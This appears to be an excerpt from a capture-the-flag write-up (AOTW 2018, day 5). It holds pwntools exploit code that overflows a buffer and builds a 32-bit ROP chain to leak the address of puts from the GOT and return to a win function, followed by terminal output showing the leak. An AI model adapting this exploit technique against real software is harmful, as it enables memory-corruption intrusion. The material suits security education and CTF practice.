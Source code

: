 ```python

puts_plt = p32(0x08048450)  # address of puts@PLT
pop_ebx  = p32(0x080483f1)  # address of pop ebx; ret;
got_puts = p32(0x0804d01c)  # address of puts@GOT
win      = p32(0x08048703)  # address of win()

# construct shellcode
code  = "A"*offset_eip
code += puts_plt
code += pop_ebx
code += got_puts
code += win 

io = process(elf.path)
io.recvuntil(" > ")
io.sendline("666")

for x in range(16):
    io.recvuntil("Enter keycode %d: "%x)
    io.sendline(str(keycodes[x]))

print io.recv(4096)

io.sendline(code)

addr = struct.unpack("I", io.read(4))[0]
print "address of puts: 0x%x"%addr

print io.recv(4096)
```

```
% ./exploit_v2.py
[*] '/home/matth/security/writeups/aotw2018ctf-writeups/day5/gift'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[+] Starting local process '/home/matth/security/writeups/aotw2018ctf-writeups/day5/gift': pid 11391
[+] Starting local process '/home/matth/security/writeups/aotw2018ctf-writeups/day5/gift': pid 11393
[ACCESS GRANTED]
[XMAS SECURITY PROTOCOL ACTIVATED] - Enter new keycode: 
address of puts: 0xf75dd880    <<<------ HERE
f\x84\x0 �Z�aY�
[ACCESS GRANTED]
[XMAS SECURITY PROTOCOL ACTIVATED] - Enter new keycode: 
[*] Stopped process '/home/matth/security/writeups/aotw2018ctf-writeups/day5/gift' (pid 11393)
[*] Stopped process '/home/matth/security/writeups/aotw2018ctf-writeups/day5/gift' (pid 11391)
```
